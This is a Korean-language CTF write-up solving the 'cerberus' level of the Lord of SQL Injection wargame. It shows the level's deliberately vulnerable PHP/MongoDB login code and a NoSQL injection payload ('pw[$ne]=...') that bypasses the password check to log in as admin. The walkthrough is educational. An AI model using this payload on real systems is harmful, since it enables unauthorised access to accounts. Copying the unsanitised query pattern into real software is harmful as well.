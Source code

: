 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cerberus 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 `MSSQL`이 끝나고 이번엔 `MongoDB`로 넘어왔다.  

문제 이름은 `cerberus`이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : {"id":null,"pw":null}
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

코드는 간단하다.  

`id`가 `admin`인 행을 추출하면 된다.  

그래서 인터넷에 `mongodb sql injection`이라고 검색을 해 보았더니 자료가 엄청 많이 나왔다.  

`MongoDB`는 `NoSQL`이라고 한단다.  

> NoSQL  
>> Not Only SQL로 불리기도 하며, SQL만을 사용하지 않은 DBMS  
>> 비관계형 데이터베이스  
>> 즉, 데이터의 관계를 정의하지 않고 사용하는 DB  

아래 블로그에서 NoSQL과 일반 SQL DB 사이의 차이점을 쉽게 설명 해 주었다.  

> [NOSQL Injection from MongoDB](https://tribal1012.tistory.com/138)

위의 블로그를 읽은 후, 문제의 소스코드를 보면 문제에서는 `find($query)`를 이용하여 `select * from prob_cerberus where id=$_GET['id'] and pw=$_GET['pw']` 형태의 쿼리를 실행했다는 것을 알 수 있었다.  

그런데 이 때, Array 형태로 구성되어 있는 `$query` 안에 또 다시 관계를 나타내는 Array를 삽입 해 의도하지 않은 결과를 가져올 수 있다고 한다.  

가장 자주 쓰이는 것이 `$ne`인 것 같은데, 이는 `!=`과 동일한 기능을 하는 문자이다.  

따라서 해당 쿼리에서 `pw=$_GET['pw']` 부분을 `pw!=$_GET['pw']`로 만들어 `id`는 `admin`이지만, `pw`의 값이 내가 입력한 값이 아닌 데이터를 불러오도록 조작할 수 있다.  

위의 블로그에서는 테스트 환경에서 소스코드를 짜서 구성했는데, 나는 그냥 배열 형태로 아래와 같이 넣어주었다.  

```
?id=admin&pw[$ne]=asd
```

그럼 완성되는 `$query`의 내용은 아래와 같을 것이다.  

```
{"id" : "admin", "pw" : {"$ne":"asd"}}
```

즉, `SQL`의 `where 절`과 같이 바꾸어 보면 다음과 같다.  

```
where id = "admin" and pw != "asd"
```

따라서 아래와 같이 문제를 풀 수 있게 된다.  

```php
----------------------------------------------------------
query : {"id":"admin","pw":{"$ne":"asd"}}
----------------------------------------------------------

Hello admin
CERBERUS Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

`CERBERUS Clear`
